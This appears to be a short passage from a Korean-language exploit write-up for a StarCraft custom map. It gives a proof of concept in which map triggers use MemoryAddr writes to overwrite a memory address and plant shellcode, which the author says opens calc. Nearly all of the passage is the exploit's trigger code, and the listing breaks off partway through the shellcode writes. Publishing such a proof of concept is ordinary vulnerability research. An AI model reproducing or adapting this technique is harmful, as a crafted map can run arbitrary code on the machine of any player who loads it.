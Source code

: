 ![10](picture/10.PNG)

다음의 Trigger를 가진 유즈 맵 파일을 로딩하면 됨. 쉘코드는 그냥 calc 띄워주는 거를 poc로 사용했음.

```shell
Trigger("All players"){
Conditions:
	Always();

Actions:
	Display Text Message(Always Display, "[EXPLOIT] is running...");
}

//-----------------------------------------------------------------//

Trigger("All players"){
Conditions:
	Bring("All players", "Terran SCV", "Location 0", At least, 1);

Actions:
	Display Text Message(Always Display, "[DEBUG]  Call  ACTION_Set_Deatchs !");
	Move Unit("All players", "Any unit", All, "Location 0", "Location 1");
	Set Deaths("Player 1", "Terran Marine", Set To, 1);
	Preserve Trigger();
}

//-----------------------------------------------------------------//

Trigger("All players"){
Conditions:
	Bring("All players", "Terran SCV", "Location 2", At least, 1);

Actions:
	MemoryAddr(0x00512878, Set To, 2031616);
	MemoryAddr(0x001f0000, Set To, 2338642737);
	MemoryAddr(0x001f0004, Set To, 2139828347);
	MemoryAddr(0x001f0008, Set To, 478120716);
	MemoryAddr(0x001f000c, Set To, 2332575627);
	MemoryAddr(0x001f0010, Set To, 1066082423);
	MemoryAddr(0x001f0014, Set To, 856456832);
	MemoryAddr(0x001f0018, Set To, 3347706485);
	MemoryAddr(0x001f001c, Set To, 2335995907);
	MemoryAddr(0x001f0020, Set To, 3254876247);
	MemoryAddr(0x001f0024, Set To, 18905739);
```